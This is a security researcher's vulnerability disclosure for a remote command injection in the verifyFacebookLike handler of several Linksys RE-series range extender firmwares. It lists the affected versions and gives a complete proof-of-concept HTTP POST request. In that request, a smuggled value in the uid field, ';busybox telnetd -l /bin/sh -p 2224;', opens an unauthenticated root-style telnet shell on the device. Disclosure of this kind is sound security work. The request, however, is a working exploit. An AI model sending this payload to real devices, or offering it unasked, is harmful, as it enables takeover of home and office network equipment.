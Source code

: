 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500
>
> There is also a stack overflow vulnerability



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `verifyFacebookLike` function, `uid、accessToken` is directly passed by the attacker, so we can control the `uid、accessToken` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `uid` as **';busybox telnetd -l /bin/sh -p 2224;'** , and the router will excute it,such as:

```http
POST /goform/verifyFacebookLike HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=38Zh8V1pS0ZxOgJe7smpu4T4HNG3Yzob
Upgrade-Insecure-Requests: 1

uid=';busybox telnetd -l /bin/sh -p 2224;'&accessToken=pjqwudi
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

